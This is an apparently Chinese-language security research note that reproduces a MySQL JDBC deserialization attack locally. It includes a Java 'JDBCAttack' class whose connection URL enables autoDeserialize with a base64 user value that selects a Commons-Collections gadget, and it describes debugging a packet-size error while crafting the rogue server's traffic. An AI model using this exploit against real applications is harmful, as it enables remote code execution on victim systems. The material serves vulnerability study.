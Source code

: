 现在本地进行复现 利用某条cc链进行测试

```JAVA

import java.sql.*;

public class JDBCAttack {
    public static void main(String[] args) throws Exception {
	        String url = "jdbc:mysql://127.0.0.1:8888/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=base64ZGVzZXJfQ0MzMV9jYWxjLmV4ZQ==";
	//        String url = "jdbc:mysql://127.0.0.1:5556/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=base64ZGVzZXJfQ0MzMV9jYWxjLmV4ZQ==";
        try {
            Class.forName("com.mysql.jdbc.Driver");
            DriverManager.getConnection(url);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}

```

‍

‍

#### 构造流量包

遇到问题

总是报错

```JAVA
 protected final Buffer readPacket() throws SQLException {
        try {
            int lengthRead = this.readFully(this.mysqlInput, this.packetHeaderBuf, 0, 4);
            if (lengthRead < 4) {
                this.forceClose();
                throw new IOException(Messages.getString("MysqlIO.1"));
            } else {
                int packetLength = (this.packetHeaderBuf[0] & 255) + ((this.packetHeaderBuf[1] & 255) << 8) + ((this.packetHeaderBuf[2] & 255) << 16);
                if (packetLength > this.maxAllowedPacket) {
                    throw new PacketTooBigException((long)packetLength, (long)this.maxAllowedPacket);
                } else {
```

Packet for query is too large

跟进调试发现在

mysqlio.class  line 339 在读取流量包作为输入的时候会进行大小判断
